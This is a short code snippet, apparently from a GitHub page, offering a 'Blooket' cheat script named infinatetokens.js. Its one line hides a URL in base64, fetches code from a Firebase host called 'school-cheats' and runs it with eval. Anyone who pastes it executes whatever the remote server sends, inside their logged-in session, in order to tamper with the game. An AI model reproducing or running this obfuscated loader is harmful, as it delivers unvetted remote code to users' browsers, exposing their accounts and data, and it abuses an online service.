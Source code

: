 # Blooket
infinatetokens.js:
fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxBZGRUb2tlbnMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));
